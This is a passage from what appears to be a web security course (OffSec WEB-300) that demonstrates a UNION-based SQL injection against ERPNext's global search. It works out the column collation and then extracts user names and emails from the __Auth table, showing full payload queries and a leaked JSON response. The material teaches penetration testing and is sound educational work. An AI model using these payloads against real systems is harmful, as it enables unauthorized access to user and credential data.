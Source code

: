 > Listing 41 - Query to discover collation

Since this is a whitebox assessment, we could run the query in Listing 41 directly on the host. However, the collation across builds and versions of an application might be different. It is best practice to extract values like the collation directly from the host we are targeting. For this reason, we will use our SQL injection to extract the collation.

Like the previous payload, we have to change this query to fit into a UNION query. We want the final query to be like the one found in Listing 42.

```
SELECT `doctype`, `name`, `content`, `title`, `route`
  FROM `__global_search`
  WHERE `published` = 1 AND  `route` like "offsec_scope" UNION ALL SELECT 1,2,3,4,COLLATION_NAME FROM information_schema.columns WHERE TABLE_NAME = "__global_search" AND COLUMN_NAME = "name"#%" AND MATCH(`content`) AGAINST ('\"offsec\"' IN BOOLEAN MODE)
  LIMIT 20 OFFSET 0
```

> Listing 42 - Full query to discover collation

The highlighted part in Listing 42 will become the payload we send in Burp.

![Figure 38: Discovering Collation via SQLi](https://static.offsec.com/offsec-courses/WEB-300/images/erpnext/534ee277e9f51bf37ff89818fc7b53b7-erpnext_sqli_discover_collation.png)

Figure 38: Discovering Collation via SQLi

This request returns the value of "utf8mb4_general_ci" as the collation for the name column in the ___global_search_ table. With this information, let's edit our previous payload to include the "COLLATE utf8mb4_general_ci" command. The query we are attempting to run is as follows:

```
SELECT name COLLATE utf8mb4_general_ci FROM __Auth;
```

> Listing 43 - Standard query for extracting the name/email with collation

This makes the final query similar to the one found in Listing 44.

```
SELECT `doctype`, `name`, `content`, `title`, `route`
  FROM `__global_search`
  WHERE `published` = 1 AND  `route` like "offsec_scope" UNION ALL SELECT 1,2,3,4,name COLLATE utf8mb4_general_ci FROM __Auth#%" AND MATCH(`content`) AGAINST ('\"offsec\"' IN BOOLEAN MODE)
  LIMIT 20 OFFSET 0'
```

> Listing 44 - SQL injection query with collation

Sending this payload in Burp allows us to extract the name/email from the database.

![Figure 39: Extracting the name/email from Database](https://static.offsec.com/offsec-courses/WEB-300/images/erpnext/ab07fe48a41a1f65265b96b5cf25628a-erpnext_sqli_extracting_name.png)

Figure 39: Extracting the name/email from Database

This returns the response shown in Listing 45.

```
{"message":[{"route":"Administrator","content":"3","relevance":0,"name":"2","title":"4","doctype":"1"},{"route":"zeljka.k@randomdomain.com","content":"3","relevance":0,"name":"2","title":"4","doctype":"1"}]}
```
